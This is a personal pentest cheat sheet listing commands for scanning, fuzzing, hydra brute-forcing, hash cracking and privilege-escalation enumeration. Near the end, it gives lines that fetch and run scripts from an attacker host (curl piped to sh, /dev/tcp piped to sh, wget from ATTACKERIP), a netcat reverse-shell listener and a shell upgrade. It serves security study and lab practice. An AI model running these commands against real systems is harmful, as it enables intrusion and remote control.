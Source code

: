 ### My current Pentest Cheatsheet   
Updated: *05.12.2023*   
[See sources and credits](report.md#y-the-super-ultimate-hakk3r-che33tsheet-001-tee-tiivistelm%C3%A4-omista-ja-kavereiden-parhaista-tunketumistekniikoista-ole-t%C3%A4sm%C3%A4llinen-liit%C3%A4-komennot-mukaan-t%C3%A4m%C3%A4n-kohdan-vastaus-lienee-pidempi-kuin-aiempien-x-teht%C3%A4vien-viittaa-l%C3%A4hteisiin-t%C3%A4ss%C3%A4-alakohdassa-ei-tarvitse-ajaa-komentoja-tietokoneella)

**Nmap:**
```bash
Example: sudo nmap -A -p- <address> -oA filename 
Everything: -A
Enumerate Versions: -sV
Default Scripts: -sC
Syn Scan: -sS
All Ports: -p0-
Output (All Formats): -oA filename
```

**Gobuster**
```bash
# Directories
gobuster dir -w /usr/share/wordlists/dirb/small.txt -u http://address

# Vhosts
gobuster vhost -w /usr/share/wordlists/dirb/small.txt -u address --append-domain
```

**Ffuf**
```bash
# Sites
ffuf -w /path/to/wordlist -u https://target/FUZZ

# Vhosts
ffuf -c -w /path/to/wordlist -u http://ffuf.io.fi -H "Host: FUZZ.ffuf.io.fi"

# Filter out response length
-fs <bytesize>
```

---
**Hydra:**
- SSH   
```bash
Example: hydra -l user -p pass 127.0.0.1 ssh
User: -l
User File: -L
Password: -p
Password File: -P
Port: -s
Tasks: -T
```

**Searchsploit:**
```bash
Example: searchsploit SOMETHING
Read Exploit: -x
Copy to current location: -m
Update: -u
```

**SQLi Cheatsheet:** 
https://portswigger.net/web-security/sql-injection/cheat-sheet

---
**Hashcat:**
```bash
Hash Mode: -m <id>
   0 | MD5
1400 | SHA2-256 
1700 | SHA2-512

Attack Mode: -a <id>
0 for dictionary
---
3 for mask
Masks:
  ?l | low caps
  ?u | high caps
  ?d | numbers
  ?h | numbers + low caps
  ?H | numbers + high caps
  ?s | special characters
  
Workload 1-4: -w <id>
Disable Potfile: --potfile-disable
Show Cracked Hashes: --show
Out File: -o
Usernames in Hashfile: --username
```

**John:**
```bash
john --wordlist=/path/file hash.file
```

**Wordlist Gen:**

**Cewl**
```bash
cewl -w wordlist <url>
```

**Crunch**
```bash
TBA
```

**From a file:**
**Python Script**
```bash
#!/bin/python3
import sys
import re

if len(sys.argv) != 2:
    print("Usage: wordlist_gen <filename>")
    sys.exit(1)

filename = sys.argv[1]

with open(filename, "r") as file:
    for line in file:
        # Replace non-alphanumeric characters with space
        line = re.sub(r"[^\w\s]", " ", line)
        # Split line into words and iterate over them
        for word in line.split():
            print(word)
```

**Sed**
```bash
sed 's/[^a-zA-Z0-9 ]//g; s/ /\n/g; /^$/d' <filename> | tr -s '\n'
```

---
**PrivEsc stuffz:**
```bash
sudo -l
Find Group Owned Files: find / -group <group-name>
Find SUID: find / -perm -4000
Find GUID: find / -perm -2000
Listening Ports: netstat -tulnp
Listening Ports: ss -ltnp
Find World Writeable: find / -perm -o+w
```
**Find**
- Disable "permission denied and stuffs" printing:   
```bash
find / -name <something> 2>/dev/null
```

**Good place to put exploits, scripts and stuffs on victim:**   
```bash
 /dev/shm/
 /tmp/
```

**Send files from Attacker to Target:**     
```bash
sudo python -m http.server PORT #Host
wget ATTACKERIP:PORT/filename #Victim
```
OR:   
**Run script over the network:**   
```bash
# Local network
sudo python3 -m http.server 80 #Host
curl <ip_address>/script.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < script.sh #Host
cat < /dev/tcp/<ip_address>/<port> | sh #Victim
```
Source: [Linpeass](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

**Reverse shells:**   
Host, netcat listener:    
```bash
nc -lvnp PORTNUMBER  
```
Shells:   
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet   
https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/

---
**Improved shell:**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

CTRL + z

stty raw -echo; fg
export TERM=xterm
```
